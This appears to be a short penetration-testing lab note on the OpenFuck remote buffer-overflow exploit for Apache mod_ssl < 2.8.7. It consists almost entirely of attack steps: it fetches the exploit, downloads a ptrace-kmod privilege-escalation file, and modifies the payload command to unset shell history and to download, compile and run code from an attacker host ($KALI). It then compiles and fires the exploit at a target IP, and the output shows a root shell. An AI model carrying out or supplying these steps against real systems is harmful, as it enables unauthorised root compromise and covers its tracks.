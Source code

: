 
# Openfck mod_ssl < 2.8

[Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow - Unix remote Exploit](https://www.exploit-db.com/exploits/21671)

[Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1) - Unix remote Exploit](https://www.exploit-db.com/exploits/764)

[Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2) - Unix remote Exploit](https://www.exploit-db.com/exploits/47080)

## Exploit Code

```
searchsploit -m 47080
```

## Get Supporting Exploit and Host it with HTTP
```
wget https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
```

## Mod Source Code

line 341, COMMAND2
```
#define COMMAND2 "unset HISTFILE; cd /tmp; wget http://$KALI/ptrace-kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm  trace-kmod.c; ./exploit; \n"
```

## Compile
```
gcc 47080.c -o of -lcrypto
```

## Exploit

example
```
./of 0x73 10.11.1.22 443
```

## Shell

*** there is no prompt **
```
whoami
root
```

Use a bash one-liner to catch a reverse shell and then upgrade PTY.
